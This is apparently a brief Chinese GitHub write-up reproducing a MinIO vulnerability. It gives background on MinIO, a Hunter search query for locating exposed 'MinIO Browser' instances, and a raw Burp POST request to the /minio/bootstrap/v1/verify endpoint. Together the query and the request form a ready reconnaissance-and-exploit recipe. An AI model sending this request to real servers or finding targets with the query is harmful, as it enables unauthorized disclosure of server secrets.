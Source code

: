 ## 0x00 漏洞背景

   这个漏洞影响范围还是有的，打红队碰见过一次，决定复现一下。
   
   MinIO是一个基于Apache开源协议的对象存储服务，它兼容亚马逊S3云存储服务接口，非常适合于存储大容量非结构化的数据，例如图片、视频、日志文件、备份数据和容器/虚拟机镜像等。
   
   
   ![图片](https://user-images.githubusercontent.com/118274389/229670622-e84633a3-76a0-4d0e-a779-bf3bb23e0393.png)

   
   hunter语法：web.title="MinIO Browser"
   
## 0x01 漏洞复现

  burp数据包
  
  ```
  POST /minio/bootstrap/v1/verify HTTP/1.1
  Host: 
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Upgrade-Insecure-Requests: 1
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 0
  
  ```
